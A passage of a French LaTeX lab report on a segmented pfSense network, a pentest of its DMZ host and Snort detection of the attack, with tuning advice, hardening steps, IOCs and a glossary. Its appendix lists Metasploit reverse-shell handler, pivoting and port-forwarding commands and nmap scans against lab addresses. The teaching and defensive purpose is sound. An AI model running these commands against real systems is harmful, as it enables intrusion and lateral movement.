	Source: 192.168.10.100:38764
	Dest: 91.189.88.142:80 (Ubuntu security repo)
\end{lstlisting}

\textbf{Contexte :} Ubuntu télécharge les mises à jour de sécurité. Ceci est du trafic \textbf{complètement légitime}.

\textbf{Action :} Ajouter une suppression (whitelist) pour ces flux ou réduire la priorité.

\subsection{Faux Positif \#2 : HTTP Anomaly}

\begin{lstlisting}[style=logstyle,caption=Faux positif: http\_inspect anomaly detectee]
	Alert Time: 2026-03-04 15:22:10
	Interface: DMZ (em1)
	Priority: 2 (High)
	SID: 1:3001000
	Message: (http_inspect) NO CONTENT-LENGTH OR TRANSFER-ENCODING IN HTTP RESPONSE
	
	Source: 192.168.10.100:80
	Dest: 192.168.100.150:12345
\end{lstlisting}

\textbf{Contexte :} Certains serveurs HTTP légitimes omettent Content-Length sur certaines réponses (ex : streaming, chunked).

\textbf{Action :} Désactiver la règle ou ajouter exception.

\subsection{Stratégie de Tuning}

Pour réduire les faux positifs tout en conservant la détection réelle :

\begin{enumerate}[leftmargin=*]
	\item \textbf{Désactiver catégories bruyantes :} ET POLICY (policy violations) peut être désactivée si non pertinente.
	\item \textbf{Ajuster seuils :} Certaines règles utilisent des seuils (ex : nombre de connexions) ; les augmenter réduit le bruit.
	\item \textbf{Listes de suppression :} Pour des flux légitimes connus, ajouter des suppressions (sid suppression, ip suppression).
	\item \textbf{Pass List :} Déclarer les IPs dignes de confiance (serveurs d'update, CDN) qui ne doivent jamais générer d'alertes.
	\item \textbf{Validation progressive :} Passer progressivement du mode IDS (alertes) au mode IPS (blocage) après stabilisation.
\end{enumerate}

\section{Visibilité Défensive : Pare-feu vs IDS}

\subsection{Comparaison de Perspectives}

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.5}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{p{3.2cm} p{5.4cm} p{5.4cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Aspect}}             &
		\textcolor{tableheadfg}{\textbf{Pare-feu (pfSense)}} &
		\textcolor{tableheadfg}{\textbf{IDS (Snort)}}                                                                                      \\
		\hline
		\rowcolor{tablerowalt}
		\textbf{Ce qu'il voit}                               & IP source/dest, ports, protocoles & Contenu des paquets, signatures, motifs \\

		\textbf{Granularité}                                 & Métadonnées réseau (L3-L4)        & Payloads applicatifs (L7)               \\

		\rowcolor{tablerowalt}
		\textbf{Action}                                      & Autorise/Bloque les flux          & Alerte, logs, (optionnellement bloque)  \\

		\textbf{Efficacité}                                  & Fort sur autorisations légales    & Fort sur détection d'anomalies          \\

		\rowcolor{tablerowalt}
		\textbf{Limitation}                                  & Flux autorisés = pas d'alerte     & Faux positifs, dépend des signatures    \\

		\textbf{Temps réponse}                               & Instantané (blocage/autorisation) & Traitement paquets + signature matching \\

		\rowcolor{tablerowalt}
		\textbf{Exemple TP}                                  & "DMZ→LAN:445 PASS"                & "Sonde MS17-010 DETECTED"               \\
		\hline
	\end{tabular}
	\caption{Comparaison visibilité : pare-feu stateful vs IDS}
	\label{tab:firewall-vs-ids-visibility}
\end{table}
\section{Intégration pour Détection du Mouvement Latéral}

Le mouvement latéral est une caractéristique sournoise des attaques modernes : l'attaquant se déplace d'une zone à une autre (ex : WAN$\rightarrow$DMZ$\rightarrow$LAN) en utilisant les privilèges compromis.

\textbf{Snort sur interface LAN permet de :}

\begin{enumerate}[leftmargin=*]
	\item \textbf{Détecter les probes:} Scans de ports, détection d'OS depuis un pivot interne.
	\item \textbf{Identifier les exploits:} Tentatives d'exploitation (MS08-067, EternalBlue) contre des ressources internes.
	\item \textbf{Alerter sur les patterns:} Multiples connexions vers des ports critiques (445 SMB, 3306 MySQL) depuis une source DMZ suspecte.
	\item \textbf{Corréler avec les événements WAN:} "Binaire malveillant détecté en entrée WAN" + "Activité suspecte depuis DMZ vers LAN" = \textbf{Incident confirmé}.
\end{enumerate}

C'est précisément ce qui s'est produit dans ce projet :
\begin{itemize}
	\item \textbf{Alerte WAN} : ELF détecté
	\item \textbf{Alerte LAN} : Sonde EternalBlue depuis DMZ
\end{itemize}

Une \textbf{corrélation manuelle} révèle la chaîne d'attaque end-to-end.

% ==============================================================================
% CHAPITRE 6 : SYNTHÈSE INTÉGRÉE ET LEÇONS APPRISES
% ==============================================================================
\chapter{Synthèse Intégrée et Leçons Apprises}

\section{Vision Holistique : de la Défense à l'Attaque, puis à la Détection}

Ce projet a documenté un cycle complet de cybersécurité :

\begin{table}[H]
	\centering
	\renewcommand{\arraystretch}{1.6}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{>{\centering\arraybackslash}p{2cm} p{5.5cm} p{6.5cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Étape}}    &
		\textcolor{tableheadfg}{\textbf{Objectif}} &
		\textcolor{tableheadfg}{\textbf{Résultats}}                                                                                                           \\
		\hline
		\rowcolor{tablerowalt}
		\textbf{1}                                 & Construire une infrastructure défensive segmentée   & 93-96\% réduction surface d'attaque                \\

		\textbf{2}                                 & Cartographier les vulnérabilités exposées           & Telnet + HTTP identifiés (CVSS 9.8, 8.1)           \\

		\rowcolor{tablerowalt}
		\textbf{3}                                 & Valider les vulnérabilités par exploitation active  & Compromission DMZ en 32 min, pivoting LAN possible \\

		\textbf{4}                                 & Déployer la détection pour intercepter les attaques & Snort détecte payload ELF + sonde MS17-010         \\

		\rowcolor{tablerowalt}
		\textbf{5}                                 & Corréler les alertes pour une vision complète       & Chaîne d'attaque reconstructible via logs          \\
		\hline
	\end{tabular}
	\caption{Cycle complet : Défense $\rightarrow$ Attaque $\rightarrow$ Détection}
	\label{tab:complete-cycle}
\end{table}

\subsection{Mesures Quantifiées}

\begin{itemize}[leftmargin=*]
	\item \textbf{Surface d'attaque réduite :} 0.2\% (2 ports ouverts / 1000)
	\item \textbf{Durée de compromission:} 32 minutes (reconnaissance $\rightarrow$ persistence)
	\item \textbf{Données exfiltrées:} 121 KB (43 comptes utilisateurs, configurations, services)
	\item \textbf{Sessions C2 maintenues:} 2 sessions Meterpreter simultanees (persistence)
	\item \textbf{Tentatives d'exploitation:} 2 (MS17-010, MS08-067 — échouées sur cible, réussies en technique)
	\item \textbf{Alertes Snort:} 4+ dont 2 critiques (ELF download, MS17-010 probe)
	\item \textbf{Réduction visibilité pare-feu:} 100\% des flux de pivoting étaient "autorisés"
\end{itemize}

\section{Points Forts de la Défense Observée}

\begin{enumerate}[leftmargin=*]
	\item \textbf{Segmentation réseau :} Effective pour isoler les zones (DMZ bloquée du LAN sans règle explicite).
	\item \textbf{NAT sélectif:} Seulement les services nécessaires exposés (23, 80 vs 50+ par défaut).
	\item \textbf{IDS/DPI :} Snort a détecté les motifs d'attaque que les logs pare-feu masquaient.
	\item \textbf{Patches appliqués :} Même obsolète, Windows XP a résisté aux exploits critiques.
\end{enumerate}

\section{Points Faibles Identifiés}

\begin{enumerate}[leftmargin=*]
	\item \textbf{Telnet exposé :} Service non chiffré avec credentials faibles = vecteur trivial.
	\item \textbf{Sudo non restreint :} sudo ALL donne élévation immédiate sans limites.
	\item \textbf{Fail2Ban incomplet :} Surveillance SSH seule, pas Telnet.
	\item \textbf{Segmentation contaminée :} Règle DMZ$\rightarrow$LAN permissive (même temporairement) annule l'isolation.
	\item \textbf{Absence de SIEM :} Corrélation manuelle d'alertes, pas de réponse à incident automatisée.
	\item \textbf{Chiffrement de C2 :} Meterpreter TLS rend le trafic opaque au pare-feu.
\end{enumerate}



\section{Leçons Apprises pour Production}
\subsection{Défense Immédiate (24-48h)}
\begin{tcolorbox}[
	colback=accent!5!white,
	colframe=accent,
	title=\textbf{Actions Critiques},
	before upper={\parskip=4pt}
	]
	\begin{enumerate}[leftmargin=*, itemsep=4pt, topsep=0pt]
		
		\item \textbf{Désactiver Telnet}
		\begin{lstlisting}[caption=Desactiver Telnet, aboveskip=4pt, belowskip=0pt]
			sudo systemctl stop inetutils-inetd
			sudo apt remove inetutils-inetd -y
		\end{lstlisting}
		
		\item \textbf{Remplacer par SSH chiffré}
		\begin{lstlisting}[caption=Configuration SSH securisee, aboveskip=4pt, belowskip=0pt]
			/etc/ssh/sshd_config :
			- Port 2222 (non-standard)
			- PasswordAuthentication no (cles SSH uniquement)
			- AllowUsers [liste blanche]
		\end{lstlisting}
		
		\item \textbf{Restreindre sudo}
		\begin{lstlisting}[caption=Restreindre privileges sudo, aboveskip=4pt, belowskip=0pt]
			sudo visudo :
			telnetuser ALL=(ALL) /usr/bin/systemctl restart nginx
			# Au lieu de : ALL=(ALL:ALL) ALL
		\end{lstlisting}
		
		\item \textbf{Configurer Fail2Ban pour Telnet + SSH}
		\begin{lstlisting}[caption=Configuration Fail2Ban, aboveskip=4pt, belowskip=0pt]
			/etc/fail2ban/jail.local :
			[telnetd]
			enabled = true
			maxretry = 2
			bantime = -1
			
			[sshd]
			maxretry = 3
			bantime = 3600
		\end{lstlisting}
		
		\item \textbf{Activer Snort en mode IPS progressivement}
		\begin{lstlisting}[caption=Activer Snort IPS mode, aboveskip=4pt, belowskip=0pt]
			Services > Snort > Interfaces > Blocking Mode : ON
			(apres tuning et validation)
		\end{lstlisting}
		
	\end{enumerate}
\end{tcolorbox}

\subsection{Court Terme (1-2 semaines)}

\begin{enumerate}[leftmargin=*]
	\item \textbf{Restaurer segmentation stricte DMZ/LAN:}
	      \begin{itemize}
		      \item Supprimer la règle DMZ$\rightarrow$LAN permissive.
		      \item Ajouter exceptions minimales et justifiées (ex : DMZ:192.168.10.100 $\rightarrow$ LAN:192.168.20.50 port 3306 MySQL seulement).
	      \end{itemize}

	\item \textbf{Déployer durcissement des hôtes:}
	      \begin{itemize}
		      \item Pare-feu hôte UFW : appliquer default deny + whitelist services.
		      \item Audit SELinux / AppArmor pour confinement processus.
	      \end{itemize}

	\item \textbf{Mettre en place alertes Snort à SIEM:}
	      \begin{itemize}
		      \item Intégrer Snort à Elasticsearch + Kibana (ELK Stack) ou Splunk.
		      \item Créer corrélations : "Payload WAN + Mouvement latéral LAN = Incident".
	      \end{itemize}

	\item \textbf{Déployer EDR (Endpoint Detection \& Response):}
	      \begin{itemize}
		      \item Wazuh pour visibilité processus/fichiers/logs sur endpoints.
		      \item Détection comportements anormaux (nouveaux processus, connexions inhabitées).
	      \end{itemize}
\end{enumerate}

\subsection{Long Terme (1 mois+)}

\begin{enumerate}[leftmargin=*]
	\item \textbf{Remplacer Windows XP:}
	      \begin{itemize}
		      \item End-of-life 2014, non supporté.
		      \item Migration vers Windows 10/11 ou Linux Desktop.
		      \item Si impossible : isoler en VLAN dédié, pas d'accès Internet.
	      \end{itemize}

	\item \textbf{Implémenter Zero Trust Architecture:}
	      \begin{itemize}
		      \item Authentification multi-facteurs (MFA) pour tout accès.
		      \item Micro-segmentation par service/application.
		      \item Vérification continuelle de la posture de sécurité.
	      \end{itemize}

	\item \textbf{SIEM Centralisé + Incident Response:}
	      \begin{itemize}
		      \item Agrégation logs: pfSense, Snort, Ubuntu, Windows, applications.
		      \item Playbooks d'IR: escalade, isolation, éradication.
		      \item Drills trimestriels (table-top exercises).
	      \end{itemize}

	\item \textbf{Audits de Sécurité Réguliers:}
	      \begin{itemize}
		      \item Pentests trimestriels externes.
		      \item Scans vulnérabilités automatisés (Nessus, OpenVAS).
		      \item Red Team exercises annuels.
	      \end{itemize}
\end{enumerate}

\section{Recommandations Spécifiques au Tuning Snort}

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.4}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{p{3.2cm} p{3.5cm} p{6.3cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Catégorie}}      &
		\textcolor{tableheadfg}{\textbf{Recommandation}} &
		\textcolor{tableheadfg}{\textbf{Justification}}                                                                                            \\
		\hline
		\rowcolor{tablerowalt}
		\textbf{À activer}                               & exploit/, netbios-smb/, web/                  & Couverture menaces critiques            \\

		\textbf{À désactiver}                            & policy/ (bruyant), dos/ (peu pertinent)       & Réduire faux positifs                   \\

		\rowcolor{tablerowalt}
		\textbf{Pass List}                               & IPs mises à jour (91.189.88.142 Ubuntu repos) & Éviter alertes sur trafic légitime      \\

		\textbf{Suppress}                                & SID:2005677 si non pertinent (APT UA)         & Tuning des bruits identifiés            \\

		\rowcolor{tablerowalt}
		\textbf{Monitoring}                              & Logs d'alertes : /var/log/snort/alert         & Sauvegarder, analyser, corréler         \\

		\textbf{Mise à jour}                             & ET Open daily, Snort weekly                   & Signatures à jour = détection améliorée \\
		\hline
	\end{tabular}
	\caption{Stratégie de tuning Snort pour réduire faux positifs}
	\label{tab:snort-tuning-strategy}
\end{table}

\subsection{Indicateurs de Compromission (IOCs)}

Pour faciliter la détection et la réponse à incident en production, voici les IOCs spécifiques à ce projet :

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.3}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{p{2.5cm} p{4.5cm} p{6cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Type}}       &
		\textcolor{tableheadfg}{\textbf{Indicateur}} &
		\textcolor{tableheadfg}{\textbf{Description}}                                                                                            \\
		\hline
		\rowcolor{tablerowalt}
		\textbf{IP}                                  & 192.168.100.150                                         & Machine attaquante (Parrot)     \\

		\textbf{Port}                                & 4445/TCP                                                & C2 Meterpreter                  \\

		\rowcolor{tablerowalt}
		\textbf{Fichier}                             & /tmp/meterpreter.elf                                    & Payload malveillant (250 bytes) \\

		\textbf{Hash}                                & SHA256(meterpreter.elf)                                 & Signature fichier               \\

		\rowcolor{tablerowalt}
		\textbf{Processus}                           & meterpret (PID 4907, 4908)                              & Agent C2 en mémoire             \\

		\textbf{Connexion}                           & 192.168.10.100:56526 $\rightarrow$ 192.168.100.150:4445 & Canal C2 actif                  \\

		\rowcolor{tablerowalt}
		\textbf{User-Agent}                          & wget/1.21.3                                             & Téléchargement payload          \\

		\textbf{Signature Snort}                     & SID:2000418, SID:2025992                                & Détection ELF, EternalBlue      \\
		\hline
	\end{tabular}
	\caption{IOCs : indicateurs de compromission pour détection en production}
	\label{tab:iocs-list}
\end{table}

% ==============================================================================
% CHAPITRE 7 : CONCLUSIONS ET PERSPECTIVES
% ==============================================================================
\chapter{Conclusions et Perspectives Futures}

\section{Contributions du Projet}

\subsection{Contributions Techniques}

\begin{enumerate}
	\item \textbf{Déploiement Multi-Couches :} Démonstration d'une architecture de sécurité réaliste (pfSense + Snort + pare-feu hôte) facilement reproductible en laboratoire ou PME.

	\item \textbf{Documentation Quantifiée :} Chaque phase (défense, reconnaissance, attaque, détection) inclut des métriques mesurables (surface d'attaque, timeline, alertes SID).

	\item \textbf{Validation Pratique :} Les vulnérabilités théoriques (Telnet, sudo ALL) ont été exploitées et documentées avec preuves (logs, captures d'écran).

	\item \textbf{Signatures Snort :} Identification de deux SIDs critiques (ELF download, MS17-010) révélant l'importance de la DPI.
\end{enumerate}

\subsection{Contributions Pédagogiques}

\begin{enumerate}
	\item \textbf{Perspective Attaquant} : Students comprennent les motivations, tactiques et techniques (MITRE ATT\&CK) d'une chaîne d'attaque réaliste.

	\item \textbf{Perspective Défenseur} : Les limites de chaque contrôle de sécurité deviennent évidentes (pare-feu stateful $\neq$ IDS, Fail2Ban requiert config, etc.).

	\item \textbf{Pensée Critique} : La progression TP1$\rightarrow$TP4 encourage à questionner : ``Qu'est-ce qui aurait pu arrêter cette attaque à chaque étape?''

	\item \textbf{Matérialité} : Les théories (segmentation, DPI, IDS) deviennent tangibles via reproduction pratique.
\end{enumerate}

\subsection{Vision Intégrée : Aucune Solution Parfaite}

Ce projet valide un principe fondamental :

\begin{quote}
	\textit{Il n'existe pas de solution de sécurité unique et parfaite. La sécurité est un processus continu de couches complémentaires, tuning, monitoring, et adaptation face aux menaces évolutives.}
\end{quote}


\section{Perspectives Futures et Extensions Possibles}

\subsection{Extensions Techniques Immédiates}

\begin{enumerate}[leftmargin=*]
	\item \textbf{Déploiement SIEM complet :}
	      \begin{itemize}
		      \item Intégrer Elasticsearch + Kibana (ELK Stack) ou Splunk.
		      \item Créer dashboards : alertes en temps réel, statistiques d'attaque, tendances.
		      \item Automates de réponse à incident : isolation automatique, rollback.
	      \end{itemize}

	\item \textbf{EDR (Endpoint Detection \& Response) :}
	      \begin{itemize}
		      \item Déployer Wazuh agent sur Ubuntu et Windows XP.
		      \item Surveiller processus, fichiers, connexions réseau en temps réel.
		      \item Détecter comportements anormaux (nouveaux binaires, privilèges escaladés).
	      \end{itemize}

	\item \textbf{Activer Snort en mode IPS :}
	      \begin{itemize}
		      \item Après tuning complet et validation.
		      \item Profiter du blocage actif des payloads malveillants.
		      \item Mesurer impact sur performance (latence, throughput).
	      \end{itemize}
\end{enumerate}

\subsection{Exercices Blue Team Avancés}

\begin{enumerate}[leftmargin=*]
	\item \textbf{Incident Response Simulations (IR Drills) :}
	      \begin{itemize}
		      \item Simuler une alerte Snort ; time les équipes à détecter, isoler, éradiquer.
		      \item Mesurer MTTR (Mean Time To Respond).
	      \end{itemize}

	\item \textbf{Red Team vs Blue Team (Exercice Adversaire) :}
	      \begin{itemize}
		      \item Red Team : tenter des attaques variantes (autres vecteurs, timing, obfuscation).
		      \item Blue Team : adapter défenses, tuning, détection.
		      \item Évaluer évolution de la posture de sécurité.
	      \end{itemize}

	\item \textbf{Threat Modeling et Risk Assessment :}
	      \begin{itemize}
		      \item STRIDE, PASTA, ou autre méthodologie.
		      \item Quantifier risques résiduels après mesures de sécurité.
	      \end{itemize}
\end{enumerate}

\subsection{Extensions Architecturales}

\begin{enumerate}[leftmargin=*]
	\item \textbf{Déploiement d'un Contrôleur Active Directory :}
	      \begin{itemize}
		      \item Intégrer Windows Server DC dans le LAN.
		      \item Tester attaques Kerberos (Kerberoasting, Golden Ticket, etc.).
		      \item Dépister mouvement latéral intra-domaine.
	      \end{itemize}

	\item \textbf{Réseau WiFi Segmenté :}
	      \begin{itemize}
		      \item Tester isolation Guest vs Corporate.
		      \item Évaluer risques roaming et latéral movement WiFi.
	      \end{itemize}

	\item \textbf{Cloud Hybrid (AWS/Azure) :}
	      \begin{itemize}
		      \item Étendre segmentation à des ressources cloud.
		      \item Tester cross-datacenter pivoting.
	      \end{itemize}
\end{enumerate}

\section{Recommandations Finales pour Adoption en Production}

\subsection{Roadmap Proposée (6 mois)}

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.4}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{p{1.8cm} p{4cm} p{7.2cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Mois}}  &
		\textcolor{tableheadfg}{\textbf{Étape}} &
		\textcolor{tableheadfg}{\textbf{Actions}}                                                                                                    \\
		\hline
		\rowcolor{tablerowalt}
		M1-2                                    & \textbf{Assessment}  & Audit sécurité interne, identification assets critiques, baseline de risque \\

		M2-3                                    & \textbf{Hardening}   & Désactiver services legacy, appliquer patches, configurer MFA, durcir SSH   \\

		\rowcolor{tablerowalt}
		M3-4                                    & \textbf{Monitoring}  & Déployer Snort/Wazuh, intégrer SIEM, créer alertes, tuning                  \\

		M4-5                                    & \textbf{Validation}  & IR Drills, Red Team test, mesurer MTTR, affiner playbooks                   \\

		\rowcolor{tablerowalt}
		M5-6                                    & \textbf{Operational} & Transition vers mode production, documentation, formation équipe            \\
		\hline
	\end{tabular}
	\caption{Roadmap 6 mois pour adoption en production}
	\label{tab:production-roadmap}
\end{table}

\subsection{Métriques de Succès}

\begin{enumerate}[leftmargin=*]
	\item \textbf{Détection :} Détection $>$ 90\% des attaques simulées dans les 5 minutes.
	\item \textbf{Réponse :} MTTR $<$ 30 minutes pour incidents critiques.
	\item \textbf{Réduction Surface :} Surface d'attaque $<$ 1\%.
	\item \textbf{Faux Positifs :} $<$ 5\% d'alertes non pertinentes après tuning.
	\item \textbf{Disponibilité :} $>$ 99.9\% uptime malgré défenses actives.
\end{enumerate}

\section{Citation de Conclusion}

\begin{quote}
	\textit{``Cybersecurity is not a product, but a process. It is a process that requires continuous monitoring, assessment, and improvement to keep pace with evolving threats.''}

	--- Art Coviello, former CEO RSA
\end{quote}

Ce projet valide précisément cette maxime : la sécurité n'est ni un event (déploiement Snort), ni un produit (pare-feu), mais un \textbf{processus continu} d'adaptation, monitoring, et amélioration.

Les équipes défensives qui réussiront seront celles qui :
\begin{itemize}
	\item Comprennent les tactiques attaquantes (offensive mindset).
	\item Déploient des contrôles multicouches (défense en profondeur).
	\item Automatisent la détection et la réponse (SIEM + IR).
	\item Itèrent et s'améliorent (pentests réguliers, drills, reviews).
\end{itemize}

% ==============================================================================
% BIBLIOGRAPHIE
% ==============================================================================
\begin{thebibliography}{99}

	\bibitem{owasp-top10}
	OWASP Foundation. \textit{OWASP Top 10 -- 2021}. OWASP, 2021. Consulté sur \url{https://owasp.org/Top10/}

	\bibitem{mitre-attack}
	MITRE Corporation. \textit{ATT\&CK -- Adversarial Tactics, Techniques, and Common Knowledge}. MITRE, 2024. Consulté sur \url{https://attack.mitre.org/}

	\bibitem{nist-framework}
	NIST. \textit{Cybersecurity Framework (CSF) 2.0}. National Institute of Standards and Technology, 2024. Consulté sur \url{https://www.nist.gov/cyberframework/}

	\bibitem{metasploit-unleashed}
	Offensive Security. \textit{Metasploit Unleashed}. Offensive Security, 2024. Consulté sur \url{https://www.offensive-security.com/metasploit-unleashed/}

	\bibitem{snort-manual}
	Snort Development Team. \textit{Snort User Manual}. Snort, 2024. Consulté sur \url{https://docs.snort.org/}

	\bibitem{pfsense-docs}
	Netgate. \textit{pfSense Documentation}. Netgate, 2024. Consulté sur \url{https://docs.netgate.com/pfsense/}

	\bibitem{et-open}
	Proofpoint. \textit{Emerging Threats Open Ruleset}. Emerging Threats, 2024. Consulté sur \url{https://rules.emergingthreats.net/}

	\bibitem{sans-pentesting}
	SANS Institute. \textit{Penetration Testing Methodologies and Best Practices}. SANS, 2023. Consulté sur \url{https://www.sans.org/white-papers/}

	\bibitem{kill-chain}
	Hutchins, E. M., Cloppert, M. J., et Amin, R. M. \textit{Intelligence-Driven Computer Network Defense Informed by Analysis of Adversary Campaigns and Intrusion Kill Chains}. Lockheed Martin, 2011.

	\bibitem{cis-controls}
	CIS. \textit{CIS Controls v8}. Center for Internet Security, 2021. Consulté sur \url{https://www.cisecurity.org/cis-controls/}

	\bibitem{giac-certified}
	GIAC. \textit{GIAC Certified Intrusion Analyst (GCIA)}. GIAC, 2024. Consulté sur \url{https://www.giac.org/certification/certified-intrusion-analyst-gcia}

	\bibitem{nmap-book}
	Lyon, Gordon. \textit{Nmap Network Scanning}. Insecure.Com LLC, 2009.

\end{thebibliography}

% ==============================================================================
% ANNEXES
% ==============================================================================
\appendix
\chapter{Annexes Techniques}

\section{Glossaire Technique}

\begin{description}
	\item[ACL (Access Control List)] Ensemble de règles contrôlant quels utilisateurs/systèmes peuvent accéder à une ressource.

	\item[APT (Advanced Persistent Threat)] Attaque sophistiquée menée par groupe organisé, visant accès durable et discrétion.

	\item[C2 (Command \& Control)] Infrastructure permettant à un attaquant de contrôler des systèmes compromis.

	\item[CVE (Common Vulnerabilities and Exposures)] Identifiant public pour vulnérabilité de sécurité connue.

	\item[CVSS (Common Vulnerability Scoring System)] Notation standardisée de sévérité vulnérabilité (0-10).

	\item[DEP (Data Execution Prevention)] Protection système empêchant exécution code depuis certaines régions mémoire.

	\item[DPI (Deep Packet Inspection)] Inspection du contenu complet des paquets, pas seulement en-têtes.

	\item[DMZ (Demilitarized Zone)] Zone réseau intermédiaire entre Internet et LAN interne, hébergeant services publics.

	\item[EDR (Endpoint Detection \& Response)] Technologie surveillant endpoints pour détecter/répondre menaces.

	\item[ELF (Executable and Linkable Format)] Format binaire exécutable pour systèmes Linux/Unix.

	\item[FTP (File Transfer Protocol)] Protocole transfert fichiers (non sécurisé, legacy).

	\item[ICMP (Internet Control Message Protocol)] Protocole utilisé par ping pour tester connectivité.

	\item[IDS (Intrusion Detection System)] Système détectant activités malveillantes (mode passif, alerting seul).

	\item[IPS (Intrusion Prevention System)] Système détectant ET bloquant activités malveillantes (mode actif).

	\item[IRC (Internet Relay Chat)] Protocole communication temps-réel (utilisé par certains malwares pour C2).

	\item[Lateral Movement] Déplacement attaquant au sein d'un réseau après compromission initiale.

	\item[MAC (Media Access Control)] Adresse physique identifiant interface réseau (ex : 00:0c:29:39:8b:76).

	\item[Meterpreter] Agent avancé Metasploit pour post-exploitation avec chiffrement et pivoting natifs.

	\item[MITRE ATT\&CK] Framework cataloguant tactiques, techniques, et procédures d'attaquants.

	\item[MTU (Maximum Transmission Unit)] Taille maximale paquet pouvant transiter réseau (généralement 1500 bytes).

	\item[NAT (Network Address Translation)] Technique redirigeant trafic vers adresses IP internes (port forwarding).

	\item[NIDS (Network Intrusion Detection System)] IDS opérant au niveau réseau (ex : Snort).

	\item[NX (No Execute)] Bit processeur empêchant exécution code depuis pile (protection débordement).

	\item[Payload] Code exécutable expédié en charge utile d'attaque.

	\item[Pentesting (Penetration Testing)] Test d'intrusion autorisé pour évaluer sécurité système.

	\item[Pivoting] Technique utilisant système compromis comme point rebond vers réseaux inaccessibles.

	\item[Post-Exploitation] Phase d'attaque après accès initial, visant escalade, persistence, exfiltration.

	\item[RDP (Remote Desktop Protocol)] Protocole Microsoft pour accès bureau distant (port 3389).

	\item[Reverse Shell] Shell où cible se connecte à attaquant (inverse de bind shell).

	\item[RCE (Remote Code Execution)] Capacité exécuter code arbitraire sur cible distante.

	\item[Rootkit] Malware cachant sa présence, modifiant système d'exploitation.

	\item[SIEM (Security Information and Event Management)] Plateforme centralisée agrégant logs pour détection menaces.

	\item[SID (Signature ID)] Identifiant unique règle Snort (ex : 1:2025992).

	\item[SMB (Server Message Block)] Protocole partage fichiers/imprimantes réseau (ports 139, 445).

	\item[SSH (Secure Shell)] Protocole d'accès distant chiffré (replacement sécurisé pour Telnet, port 22).

	\item[Stateful Firewall] Pare-feu maintenant table états connexions, autorisant retour trafic établi.

	\item[Telnet] Protocole accès distant non chiffré (port 23, legacy, vulnerable).

	\item[TLS (Transport Layer Security)] Protocole chiffrement communication (remplace SSL obsolète).

	\item[UDP (User Datagram Protocol)] Protocole transport connectionless, rapide mais non fiable.

	\item[UFW (Uncomplicated Firewall)] Pare-feu hôte Linux simplifié, wrapper iptables.

	\item[VPN (Virtual Private Network)] Tunnel chiffré étendant réseau privé sur réseau public.

	\item[WAF (Web Application Firewall)] Pare-feu spécialisé protection applications web (L7).

	\item[XSS (Cross-Site Scripting)] Vulnérabilité web injection code JavaScript côté client.

	\item[Zero Trust] Architecture sécurité n'accordant confiance implicite, exigeant vérification continue.
\end{description}

\section{Commandes de Référence Rapide}

\subsection{Metasploit Framework}

\begin{lstlisting}[caption=Commandes MSF essentielles]
	# Handler
	use exploit/multi/handler
	set PAYLOAD linux/x64/meterpreter/reverse_tcp
	set LHOST 192.168.100.150
	set LPORT 4445
	exploit
	
	# Sessions
	sessions -l              # Lister sessions
	sessions -i 2            # Interagir session 2
	sessions -k 2            # Tuer session 2
	background               # Mettre en arriere-plan
	
	# Routes (Pivoting)
	route add 192.168.20.0/24 2
	route print
	route delete 192.168.20.0/24 2
	
	# Port Forwarding
	portfwd add -l 3389 -p 3389 -r 192.168.20.50
	portfwd list
	portfwd delete -l 3389 -p 3389 -r 192.168.20.50
\end{lstlisting}

\subsection{Nmap Reconnaissance}

\begin{lstlisting}[caption=Scans Nmap courants]
	# Scan SYN (rapide)
	sudo nmap -sS 192.168.100.6
	
	# Scan TCP Connect (sans root)
	nmap -sT 192.168.100.6
	
	# Detection version
	nmap -sV 192.168.100.6
	
	# OS Fingerprinting
	sudo nmap -O 192.168.100.6
	
	# Scan agressif (version + OS + scripts)
	sudo nmap -A 192.168.100.6
	
	# Ports specifiques
	nmap -p 23,80,139,445 192.168.100.6
	
	# Tous les ports
	nmap -p- 192.168.100.6
\end{lstlisting}

\subsection{Snort Configuration}

\begin{lstlisting}[caption=Commandes pfSense Snort]
	# Status
	sudo snort -d -A console -i em0 -l /var/log/snort
	
	# Afficher version
	snort -V
	
	# Valider config
	snort -T -c /etc/snort/snort.conf
	
	# Logs
	tail -f /var/log/snort/alert
	tcpdump -A -r /var/log/snort/snort.log.1615000800
\end{lstlisting}

\section{Configurations Complètes}

\subsection{pfSense : Fichier de Configuration Résumé}

Les configurations critiques de pfSense utilisées dans ce projet incluent :

\begin{itemize}
	\item \textbf{Interfaces réseau :}
	      \begin{itemize}
		      \item WAN (em0) : 192.168.100.6/24 (gateway 192.168.100.2)
		      \item DMZ (em1) : 192.168.10.1/24 (aucune gateway)
		      \item LAN (em2) : 192.168.20.1/24 (aucune gateway)
	      \end{itemize}

	\item \textbf{Règles pare-feu (ordre critique) :}
	      \begin{enumerate}
		      \item WAN : Allow TCP 23 $\rightarrow$ DMZ 192.168.10.100 (Telnet)
		      \item WAN : Allow TCP 80 $\rightarrow$ DMZ 192.168.10.100 (HTTP)
		      \item DMZ : Allow TCP/UDP 192.168.10.0/24 $\rightarrow$ 192.168.20.0/24 (pédagogique, sera bloqué en prod)
		      \item LAN : Allow TCP/UDP 192.168.20.0/24 $\rightarrow$ 192.168.10.0/24 (DMZ access)
		      \item Everywhere : Default Deny
	      \end{enumerate}

	\item \textbf{NAT (Port Forward) :}
	      \begin{itemize}
		      \item 192.168.100.6:23 $\leftrightarrow$ 192.168.10.100:23 (Telnet)
		      \item 192.168.100.6:80 $\leftrightarrow$ 192.168.10.100:80 (HTTP)
